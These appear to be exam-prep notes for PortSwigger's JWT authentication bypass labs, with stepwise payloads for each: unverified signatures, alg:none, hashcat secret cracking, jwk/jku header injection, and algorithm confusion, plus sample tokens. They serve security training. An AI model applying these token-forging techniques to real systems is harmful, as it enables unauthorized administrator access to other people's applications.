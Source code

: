 # JWT

 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		- 	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
step 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

step 2 — Create a malicious symmetric key in Burp

	- In Burp → JWT Editor → Keys: New RSA Key → choose JWK and paste the copied JWK; save.
	- Right-click the new key → Copy Public Key as PEM.
	- Base64-encode that PEM (use Decoder tab) and copy the Base64 string.
	- In JWT Editor → Keys: New Symmetric Key → Generate, then replace the k value with the Base64-encoded PEM; save.

Step 3 — Modify and sign the token

	- Open the GET /admin request in Repeater, switch to the JWT Editor tab.
	- Change JWT header alg → HS256.
	- Change payload claim sub → administrator.
	- Click Sign, pick the symmetric key you created, ensure Don't modify header is selected, and sign.
	- Send the request — you should now access the admin panel.

```


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODA4OSwic3ViIjoid2llbmVyIn0.lS8m_gxpM4IOtEdpN4qRmi9y78y27xfWUCQd9Rhe7mn4MVpvjvPC0zwgD54Y1zOYUohmAHScqQHpqskJ7xm1BviNseldHnuyskG1cdi1DRd_-nglQAGfyor7Zq37wS05TzWIBCvlNgoA3fl53bQMbAAtoNACRgEkRCxwbT3_TAu0rxohctZKXF92sTQxqwsu0EbCgU-UzpAJid9Q9hZBGDy9v0MhFoe-T67RCjZEgrOkFSp6tuu0-KneQa2Rd39T4WMMKAJpzneUDX6U-IISChZaK06ORCNnWQIHmSfXas6Burt8HzqHOxbXb5KrnGQBOJ7Em6fRUrpXMxR1j_h9nQ


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODE3OSwic3ViIjoid2llbmVyIn0.LwNBoOjD0-VwaVQeZ9ELLWDQPUzqR5Uk-vbdMtbM3DVwWWl2xohuE_Qqhi6vQ4p7YdQuYIhrrRSU-nHhZS90nPInvLFLFqYbxrB83Pl9TWxForedKF8eHAKlZ6V7YlmQpknU0divlLb05daF6JeslBbDlXicSy41Gl4KOZncssUwMY-meARFLd9c2vNYwL08KpwJcguSXCXYd7mtrFp2mJj6aLrQbSpMTjtC8iVdzOW4SYnnFpr22gSQoRV8uL1XS66yJNr-WzbFuG88-YnlduywfKuBRbdIpQHhVq6UQbDefC73oWjwkTUMjMIg1AhD1wIhe4labSni8sm5W4Rr6w


Payload
```
Collect two valid JWTs
Log in, capture the session JWT (/my-account → store cookie).
Log out, log in again, capture a second JWT.

Brute-force candidate public keys

Run docker run --rm -it portswigger/sig2n <token1> <token2>.

The tool outputs candidate n values, Base64 X.509/PKCS1 public keys and tampered JWTs.

Find the server’s actual public key

For each tampered JWT (X.509 entry) replace your session cookie in Burp and request /my-account.

A 200 means you found the correct X.509 key; a 302 redirect to /login means it’s wrong.

Create a symmetric key in Burp

In JWT Editor → Keys → New Symmetric Key → Generate JWK.

Replace the k value with the Base64 X.509 key you identified (use the key itself, not the tampered JWT). Save.

Forge and sign an admin token

In Repeater open the JWT (JWT Editor tab). Set header alg: HS256.

Change payload claim sub to administrator.

Sign with the symmetric key you created (ensure “Don't modify header” is selected). This uses the server’s public key as the HMAC secret.
```